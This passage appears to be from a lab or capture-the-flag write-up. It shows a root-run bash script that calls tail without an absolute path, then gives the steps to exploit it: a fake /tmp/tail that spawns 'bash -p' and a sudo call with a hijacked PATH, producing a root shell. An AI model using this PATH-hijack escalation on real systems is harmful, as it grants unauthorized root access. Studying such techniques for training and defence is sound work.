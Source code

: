 Script content:

```bash

#!/bin/bash
tail -n 10 /var/log/syslog
```

![Screenshot placeholder](screenshots/script_tail.png)

Because tail is invoked without an absolute path, providing a directory earlier in PATH can cause the script to execute our binary as root. It’s a classic — elegant in its simplicity.

### Step 3 — Create malicious tail & hijack PATH:

```bash

cat > /tmp/tail <<'EOF'
/bin/bash -p
EOF
chmod +x /tmp/tail
sudo PATH=/tmp:$PATH /usr/bin/check_syslog.sh
```

![Screenshot placeholder](screenshots/root_shell.png)
